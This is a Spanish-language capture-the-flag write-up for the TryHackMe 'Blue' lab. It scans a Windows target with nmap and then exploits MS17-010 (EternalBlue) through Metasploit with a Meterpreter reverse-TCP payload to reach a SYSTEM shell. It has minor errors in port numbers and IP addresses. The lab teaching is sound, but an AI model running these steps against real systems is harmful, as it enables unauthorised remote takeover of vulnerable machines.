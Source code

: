 ```yaml
---
title : Máquina|Blue|THM|SMB|EternalBlue 
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/blue/blue.gif" style="width: 169px" alt="Cheese logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Fácil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/room/blue" style="color: lightblue;">Blue</a></p>
    </div>
</div>

<h2><font color="white"><center># Blue</center></font></h2>
* <p>Empezaremos con el reconocimiento de la maquina</p>
> ping -c 1 10.10.157.254
>
<img src="/imgs/blue/blue0.jpg"/>
* <p>Vemos que en la imagen el ttl es de 127 lo que indica que es una maquina windows, ahora vemos que puertos están abiertos.</p>
> nmap --min-rate 5000 -Pn -sS --open 10.10.157.254 -o allports
>
<img src="/imgs/blue/blue1.jpg"/>
* <p>tiene el puerto smb abierto 455 veremos si tiene vulnerabilidades, con nmap.</p>
> nmap --script smb-vuln* 10.10.127.254
>
<img src="/imgs/blue/blue2.jpg"/>
* <p>Al paracer es vulnerable a ( ms17-010 EternalBlue ), ahora explotemos conmsfconsole, usamos el exploit EternalBlue </p>
> use exploit/windows/smb/ms17_010_eternalblue
>
<img src="/imgs/blue/blue3.jpg"/>
* <p>Ahora indicamos el payload que queremos ejecutar una vez ganado acceso a la maquina.</p>
> set payload windows/meterpreter/reverse_tcp
>
<img src="/imgs/blue/blue4.jpg"/>
* <p>Indicamos la ip de la maquina victima con set rhosts.</p>
>
<img src="/imgs/blue/blue5.jpg"/>
* <p>Ahora indicamos nuestra ip tun0 de nuestra vpn de tryHackMe.</p>
>
<img src="/imgs/blue/blue6.jpg"/>
* <p>Seguidamente cambiamos el puerto 444 que viene por defecto para el payload, en caso de que haya un firewall indicado para cerrar conecciones
por el puerto 444.</p>
>
<img src="/imgs/blue/blue7.jpg"/>
* <p>Seguidamente ejecutamos exploit para iniciar el ataque.</p>
>
<img src="/imgs/blue/blue8.jpg"/>
* <p>Listo si ejecuta el comando Shell, y pone whoami sera autority system.</p>


